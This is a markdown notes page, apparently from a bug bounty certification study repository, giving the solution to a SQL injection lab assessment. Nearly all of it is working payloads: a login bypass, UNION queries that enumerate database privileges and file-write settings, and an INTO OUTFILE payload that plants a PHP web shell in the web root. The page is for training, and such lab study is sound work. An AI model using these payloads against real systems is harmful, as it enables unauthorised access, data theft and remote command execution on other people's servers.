



# Skills Assessment

## Authentication bypass

```sql
admin' or 1=1#
```

## Database enum

```sql
test' union select 1,2,3,4,5-- -
```



### User

```txt
root@localhost
```


```sql
test' union select 1,2,3,grantee, privilege_type FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```



```sql
test' union select 1,2,3,variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```



## Web shell

```aql
test' union select 1,'<?php system($_REQUEST[0]); ?>', 3,4,5 into outfile '/var/www/html/dashboard/shell.php'-- -
```

## Material relacionado

- [Reading Files](../../../Web-Security/SQL-Injection/reading-files.md)
- [SQLi](../../../Web-Security/SQL-Injection/sqli.md)
- [Writing Files](../../../Web-Security/SQL-Injection/writing-files.md)


## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | 8- SQLi/4 - Skills Assessment.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

[Índice de categoría](../../README.md) · [Inicio](../../../README.md)
